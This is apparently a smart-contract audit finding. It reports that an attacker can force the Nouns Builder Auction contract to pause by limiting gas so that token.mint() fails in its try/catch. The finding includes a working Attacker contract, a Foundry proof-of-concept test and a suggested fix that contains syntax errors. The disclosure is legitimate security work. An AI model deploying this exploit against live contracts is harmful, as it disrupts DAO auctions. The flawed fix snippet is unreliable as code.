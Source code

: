 Deep Ivory Cheetah

medium

# Attacker can force pause the Auction contract.

## Summary
In certain situations (e.g founders have ownership percentage greater than 51) an attacker can potentially exploit the `try catch`  within the `Auction._CreateAuction()` function to arbitrarily pause the auction contract.
## Vulnerability Detail
Consider the code from `Auction._CreateAuction()` function, which is called by `Auction.settleCurrentAndCreateNewAuction()`. It first tries to mint a new token for the auction, and if the minting fails the `catch` branch will be triggered, pausing the auction.

```solidity
function _createAuction() private returns (bool) {
	// Get the next token available for bidding
	try token.mint() returns (uint256 tokenId) {
		// Store the token id
		auction.tokenId = tokenId;

		// Cache the current timestamp
		uint256 startTime = block.timestamp;

		// Used to store the auction end time
		uint256 endTime;

		// Cannot realistically overflow
		unchecked {
			// Compute the auction end time
			endTime = startTime + settings.duration;
		}

		// Store the auction start and end time
		auction.startTime = uint40(startTime);
		auction.endTime = uint40(endTime);

		// Reset data from the previous auction
		auction.highestBid = 0;
		auction.highestBidder = address(0);
		auction.settled = false;

		// Reset referral from the previous auction
		currentBidReferral = address(0);

		emit AuctionCreated(tokenId, startTime, endTime);
		return true;
	} catch {
		// Pause the contract if token minting failed
		_pause();
		return false;
	}
}
```

Due to the internal logic of the mint function, if there are founders with high ownership percentages, many tokens can be minted to them during calls to `mint`as part of the vesting mechanism. As a consequence of this under some circumstances calls to `mint` can consume huge amounts of gas.

Currently on Ethereum and EVM-compatible chains, calls can consume at most 63/64 of the parent's call gas (See [EIP-150](https://eips.ethereum.org/EIPS/eip-150)). An attacker can exploit this circumstances of high gas cost to restrict the parent gas call limit, making `token.mint()` fail and still leaving enough gas left (1/64) for the `_pause()` call to succeed. Therefore he is able to force the pausing of the auction contract at will.

Based on the gas requirements (1/64 of the gas calls has to be enough for `_pause()` gas cost of 21572), then `token.mint()` will need to consume at least 1359036 gas (63 * 21572), consequently it is only possible on some situations like founders with high percentage of vesting, for example 51 or more.

Consider the following POC. Here we are using another contract to restrict the gas limit of the call, but this can also be done with an EOA call from the attacker.

Exploit contract code:
```solidity
pragma solidity ^0.8.16;

contract Attacker {
    function forcePause(address target) external {
        bytes4 selector = bytes4(keccak256("settleCurrentAndCreateNewAuction()"));
        assembly {
            let ptr := mload(0x40)
            mstore(ptr,selector)
            let success := call(1500000, target, 0, ptr, 4, 0, 0)
        }
    }
}
```

POC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

import { NounsBuilderTest } from "./utils/NounsBuilderTest.sol";
import { MockERC721 } from "./utils/mocks/MockERC721.sol";
import { MockImpl } from "./utils/mocks/MockImpl.sol";
import { MockPartialTokenImpl } from "./utils/mocks/MockPartialTokenImpl.sol";
import { MockProtocolRewards } from "./utils/mocks/MockProtocolRewards.sol";
import { Auction } from "../src/auction/Auction.sol";
import { IAuction } from "../src/auction/IAuction.sol";
import { AuctionTypesV2 } from "../src/auction/types/AuctionTypesV2.sol";
import { TokenTypesV2 } from "../src/token/types/TokenTypesV2.sol";
import { Attacker } from "./Attacker.sol";

contract AuctionTest is NounsBuilderTest {
    MockImpl internal mockImpl;
    Auction internal rewardImpl;
    Attacker internal attacker;
    address internal bidder1;
    address internal bidder2;
    address internal referral;
    uint16 internal builderRewardBPS = 300;
    uint16 internal referralRewardBPS = 400;

    function setUp() public virtual override {
        super.setUp();
        bidder1 = vm.addr(0xB1);
        bidder2 = vm.addr(0xB2);
        vm.deal(bidder1, 100 ether);
        vm.deal(bidder2, 100 ether);
        mockImpl = new MockImpl();
        rewardImpl = new Auction(address(manager), address(rewards), weth, builderRewardBPS, referralRewardBPS);
        attacker = new Attacker();
    }

    function test_POC() public {
        // START OF SETUP
        address[] memory wallets = new address[](1);
        uint256[] memory percents = new uint256[](1);
        uint256[] memory vestingEnds = new uint256[](1);
        wallets[0] = founder;
        percents[0] = 99;
        vestingEnds[0] = 4 weeks;
        //Setting founder with high percentage ownership.
        setFounderParams(wallets, percents, vestingEnds);
        setMockTokenParams();
        setMockAuctionParams();
        setMockGovParams();
        deploy(foundersArr, tokenParams, auctionParams, govParams);
        setMockMetadata();
        // END OF SETUP

        // Start auction contract and do the first auction
        vm.prank(founder);
        auction.unpause();
        vm.prank(bidder1);
        auction.createBid{ value: 0.420 ether }(99);
        vm.prank(bidder2);
        auction.createBid{ value: 1 ether }(99);

        // Move block.timestamp so auction can end.
        vm.warp(10 minutes + 1 seconds);

        //Attacker calls the auction
        attacker.forcePause(address(auction));

        //Check that auction was paused.
        assertEq(auction.paused(), true);
    }
}
```

## Impact
Should the conditions mentioned above be met, an attacker can arbitrarily pause the auction contract, effectively interrupting the DAO auction process. This pause persists until owners takes subsequent actions to unpause the contract. The attacker can exploit this vulnerability repeatedly.
## Code Snippet

https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol#L238-L241

https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol#L292-L329

## Tool used

Manual Review

## Recommendation
Consider better handling the possible errors from `Token.mint()`, like shown below:

```solidity
  function _createAuction() private returns (bool) {
      // Get the next token available for bidding
      try token.mint() returns (uint256 tokenId) {
          //CODE OMMITED
      } catch (bytes memory err) {
          // On production consider pre-calculating the hash values to save gas
          if (keccak256(abi.encodeWithSignature("NO_METADATA_GENERATED()")) == keccak256(err)) {
              _pause();
              return false
          } else if (keccak256(abi.encodeWithSignature("ALREADY_MINTED()") == keccak256(err)) {
              _pause();
              return false
          } else {
              revert OUT_OF_GAS();
          }
      } 
```